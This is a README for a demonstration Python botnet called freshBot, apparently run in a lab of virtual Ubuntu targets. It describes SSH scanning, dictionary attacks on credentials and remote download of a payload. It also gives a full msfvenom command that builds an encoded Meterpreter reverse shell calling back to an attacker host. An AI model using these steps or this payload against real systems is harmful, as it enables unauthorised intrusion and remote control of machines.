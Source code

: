 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4><br>
2. Our Web Server: </h4>192.168.203.1/evil_file</h4><br>
3. Targets: <h4>**4** * **ubuntu-16.04.5-desktop-amd64** in the same virtual network.</h4><br>
4. Python - paramiko module.<br>
5. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4><br>
6. msf5 > exploit/multi/handler module<br>
7. scan_drop.py - Scans, Dictionary Attack, send 1st stage payload, RCE.<br>

